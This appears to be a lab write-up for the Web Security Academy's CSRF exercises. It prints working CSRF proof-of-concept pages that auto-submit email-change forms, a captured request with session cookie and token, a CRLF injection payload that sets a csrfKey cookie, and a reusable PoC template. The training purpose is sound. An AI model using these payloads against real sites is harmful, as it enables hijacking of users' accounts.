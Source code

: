 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## CSRF where token validation depends on request method
- We note that changing email requires a CSRF token that cannot be removed or nullified in the body of the POST request.
- Let's alter the POST request from:
```
POST /my-account/change-email HTTP/2
Host: 0aa300e903e645daa8aadef600a10092.web-security-academy.net
Cookie: session=6zRITg1tqB9Eh3jTUmhYmhCv0JewZeLJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net
Referer: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Te: trailers

email=wiener4%40normal-user.net&csrf=wxN4HFe3P0vgWDHNar2dTT0QuGrj8yy9
```
to 

![image](https://github.com/user-attachments/assets/28a9f86f-b4be-4d4e-87b1-8e09c212a52e)

## CSRF where token validation depends on token being present
- Changing email initially includes a CSRF token in the body, but we found just removing it still allows for successful changing of email. We generated a CSRF PoC by just removing the CSRF token.

## CSRF where token is not tied to user session
- Two users are provided. We assume one as compromised and intercept the POST request to change email. Copy the CSRF token and drop the request.
- Generate a CSRF PoC with the copied CSRF token of the compromised user and use it to change the email of the second user.

## CSRF where token is tied to non-session cookie
- Two accounts provided, email change functionality is vulnerable to CSRF. Uses tokens, but not fully integrated into the site's session handling.
- How can we change the csrfKey cookie? Well, let's look around the site ... we notice when we search, the response contains a header called `Set-Cookie: LastSearchTerm=test`. Let's see if we can manipulate the search input.

`GET /?search=test%0d%0aSet-Cookie%3a%20csrfKey=OlW2HYkhUmzU9Y8pNOUOdRimsZ632Pl4%3b%20SameSite=None HTTP/2` %0d%0a is /r/n (carraige return, new line).

![image](https://github.com/user-attachments/assets/df5b90aa-f824-45ae-86e3-76949587df6f)

- Okay, it works. We can use the search function to manipulate the cookies. But how do we integrate this into our CSRF PoC? We need the csrfKey cookie to be set before the call to change the email. How about we use `img src`?

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4c002a04cd503e8108dea8003f00ec.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="help&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="f7umWhpynm6TnXB3hifj2dZx3A3qXoig" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a4c002a04cd503e8108dea8003f00ec.web-security-academy.net/?search=test%0d%0aSet-Cookie%3a%20csrfKey=OlW2HYkhUmzU9Y8pNOUOdRimsZ632Pl4%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## Miscellaneous Notes
- Basic CSRF PoC template for **CSRF vulnerability with no defenses**:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
